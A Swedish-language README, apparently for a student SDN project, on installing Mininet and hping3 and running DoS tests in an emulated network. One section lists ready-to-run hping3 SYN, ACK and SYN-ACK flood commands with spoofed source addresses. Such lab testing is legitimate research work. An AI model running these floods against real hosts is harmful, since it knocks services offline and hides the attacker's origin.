 # SYN-FLOOD-DOS-ATTACKER-I-SDN
Den här samlingen av dokument innehåller en guide till hur Mininet och Hping3 installeras. Dokumentationen innehåller även attack-kommandon och SSH.

## Installation av Mininet i UBUNTU

Börja med att installera Mininet med följande kommando `sudo apt-get install mininet`.

Installera git kommandot `sudo apt-get install git`.

För att installera Mininet från källkoden behöver du installera källkoden `git clone git://github.com/mininet/mininet`.

I Mininet hitta `git tag` och sedan Kopiera tag.

Skapa en ny gren med tagen du kopierade `git checkout -b "tag"`.

Ladda ned verktyg för Mininet `mininet/util/install.sh -a`.

Lägg till din linux distribution, den finns på toppen när du laddar ned `mininet/util/install.sh -a "din linux distribution"`.

## Starta Mininet

För att starta en simpel Mininet topologi skriver du `sudo mn` det skapar en Mininet topologi med en kontroller, switch och två host. Använd våra Python skript för att skapa våra topologier.

## stäng Mininet

Stäng mininet genom `sudo mn -c`

## Installation av hping3

Ladda ned Hping3 med `sudo apt-get install hping3`

## Hping3 attack-kommandon

SYN-flood attack `hping3 "target ip-address" --syn --flood -a "spoofed-adress"`.

ACK-flood attack `hping3 "target ip-address" --ack --flood -a "spoofed-adress"`

SYN-ACK-flood attack `hping3 "target ip-address" --syn --ack --flood -a "spoofed-adress"`

## SSH daemon
För att kunna köra ssh till Mininet skriver du `sudo ~/mininet/examples/sshd.py`.

Nu kan du ssh från en annan terminal till en host `ssh "host IP-adress"`
